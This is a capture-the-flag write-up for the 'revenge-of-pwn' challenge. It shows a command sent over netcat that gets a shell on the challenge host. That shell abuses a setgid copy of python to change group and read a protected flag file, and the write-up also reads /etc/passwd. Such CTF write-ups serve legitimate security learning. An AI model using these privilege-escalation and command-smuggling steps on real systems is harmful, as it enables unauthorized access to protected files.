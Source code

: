 # revenge-of-pwn

> Have you ever thought those challenges you pwned may retaliate someday? nc 3.115.58.219 9427 revenge_of_pwn-255196bb99d75512732a4109f154103b4bc428e6e29e2cdcc69e44aee67ea75f.tar.gz

Categories:
* misc
* pwn

## Solution

```
$ printf $'131\n/home/deploy/secret_python_others_should_never_know -c \'__import__("os").setgid(1001);print(open("/home/deploy/flag").read())\' 1>&2\n' | nc 3.115.58.219 9427
ELF size? (MAX: 6144)
[*] Version of pwntools: 4.3.0
[x] Opening connection to 127.0.0.1 on port 1337
[x] Opening connection to 127.0.0.1 on port 1337: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 1337: Done
hitcon{use_pwntools_to_pwn_pwntools_^ovo^}
```

## Explanation

So basically I think we were supposed to [abuse pwntools `asm` function](https://github.com/FrenchRoomba/ctf-writeup-HITCON-CTF-2020/blob/master/revenge-of-pwn/README.md), but I'm pretty lazy

Since we basiclaly have a shell by sending `len(cmd) + "\n" + cmd` to the socket (it executes non-ELF without shebang as `bash`), I explored a little first:

```
$ ls -lah $HOME
-rwxr-sr-x 1 root exploiter 5.3M Nov 26 05:07 /home/deploy/secret_python_others_should_never_know
-rw-r----- 1 root exploiter 43 Nov 24 14:58 /home/deploy/flag
```

The setgid bit is set on `secret_python_others_should_never_know`, and it's owned by `exploiter`--and so is the flag! 

```
$ cat /etc/passwd | grep exploiter
exploiter:x:1001:1001:,,,:/home/exploiter:/bin/bash
```

So now we just run `secret_python_others_should_never_know` which is basically a copy of the `python3` binary:

```
import os
os.setgid(1001)
os.system('cat /home/deploy/flag')
```

(^ expanded payload)


